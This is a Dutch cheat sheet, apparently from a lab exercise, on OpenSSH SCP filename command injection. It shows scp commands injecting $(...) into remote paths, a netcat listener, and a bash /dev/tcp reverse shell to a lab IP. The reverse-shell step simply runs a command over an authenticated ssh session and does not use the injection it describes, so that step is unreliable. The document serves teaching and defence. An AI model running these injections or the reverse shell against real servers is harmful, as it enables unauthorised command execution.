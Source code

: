# Cheat sheet aanval Open SSH  

Deze kwetsbaarheid zit in de SCP-client van OpenSSH (versies <= 8.3p1). SCP voert commando's uit op basis van bestandsnamen zonder ze goed te saniteren. Daardoor kan een aanvaller met geldige SSH-credentials kwaadaardige commando’s injecteren via bestandsnamen.

Stap 1: Controleer of de VM's met elkaar kunnen communiceren

```bash
ping 192.168.0.163 
PING 192.168.0.163 (192.168.0.163) 56(84) bytes of data.
64 bytes from 192.168.0.163: icmp_seq=1 ttl=64 time=16.1 ms
64 bytes from 192.168.0.163: icmp_seq=2 ttl=64 time=7.04 ms
64 bytes from 192.168.0.163: icmp_seq=3 ttl=64 time=7.80 ms
64 bytes from 192.168.0.163: icmp_seq=4 ttl=64 time=7.78 ms
64 bytes from 192.168.0.163: icmp_seq=5 ttl=64 time=8.33 ms
```

SCP command injection

```bash
scp test.txt osboxes@192.168.0.163:/tmp/$(echo hello)

osboxes@192.168.0.163's password: 
test.txt                                                                                                                                                   100%    0     0.0KB/s   00:00   
```

Resultaat: er verschijnt een bestand hello op de server in /tmp, aangemaakt door de injectie.

```bash
osboxes@osboxes:/tmp$ ls
hello
```

## Meer geavanceerde commando's

```bash
scp test.txt "osboxes@192.168.0.163:'/tmp/$(touch /tmp/exploit_file)'"

ls /tmp/exploit_file
```


## Reverse shell via netcat

We kunnen nog een beetje verdergaan en een reverse shell opstarten via netcat. Dit doen we door misbruik te maken van de command injection in ssh.

Start een netcat listener op de aanvaller machine

```bash
nc -lvnp 4444
```

Reverse shell via SSH

```bash
ssh osboxes@192.168.0.163 'bash -i >& /dev/tcp/192.168.0.251/4444 0>&1'
```

## Hoe werkt het?

- SCP werkt door een commando scp -t <bestandsnaam> uit te voeren op de remote host om bestanden te ontvangen.

- De bestandsnaam wordt niet gesanitiseerd waardoor shell-injectie via backticks of $(...) mogelijk is.

- Dit is een authenticated exploit: je moet wel over geldige SSH-credentials beschikken.

## Waarom is het belangrijk om je servers te beschermen?

- Veel systemen gebruiken SCP nog steeds voor bestanden overzetten.

- Kwaadwillenden met toegang kunnen zo eenvoudig commando’s uitvoeren op de server.

- OpenSSH adviseert over te stappen op veiligere alternatieven zoals rsync of sftp.
